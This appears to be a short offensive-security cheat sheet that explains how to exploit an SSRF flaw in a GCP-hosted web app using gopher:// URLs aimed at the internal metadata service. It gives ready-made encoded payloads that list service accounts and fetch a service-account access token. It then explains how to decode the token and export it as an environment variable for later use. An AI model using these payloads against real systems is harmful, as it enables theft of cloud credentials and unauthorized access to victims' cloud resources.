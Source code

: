 # SSRF using Gopher protocol

### If we successfully detect a SSRF vulnerability in a web app and the web app is hosted on GCP, we may use specific protocols and URLs to request specific information, depending on the case.

### URL Example:

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/<snip>-compute@developer.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a

# Breakdown

## Protocol and Target: gopher://metadata.google.internal:80/ 

#### This part of the payload specifies that the Gopher protocol is being used to make a request to metadata.google.internal on port 80. As mentioned, metadata.google.internal is a special domain used internally by Google Cloud services to provide metadata information to VM instances.

## Crafted Request: GET /computeMetadata/v1/instance/service-accounts/SERVICE_ACCOUNT/token 

#### This is a GET request to the Google Cloud metadata service API, requesting an access token associated with a service account. We need to find out what service account is associated with the VM.

## %2520HTTP%252f%2531%252e%2531 

#### This is an encoded form of " HTTP/1.1"

## %250AHost:%2520metadata.google.internal 

#### This is an encoded header specifying the host.

## %250AAccept:%2520%252a%252f%252a 

#### Encoded header for the Accept field, indicating that any media type is acceptable in response.

## %250aMetadata-Flavor:%2520Google 

#### Importantly this sets the header that is required to access the metadata service.

## SSRF Payloads

### List Service Accounts

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a 

### Fetch Access Token of the listed Service Account 

 - gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a 

## TIP: The response is HTML encoded so we can select the entire token, right-click it and select Convert selection > HTML > HTML-decode. After that, copy the token to your clipboard and then use it as an environmental variable.

### Command: export GOOGLE_ACCESS_TOKEN="ACCESS_TOKEN"

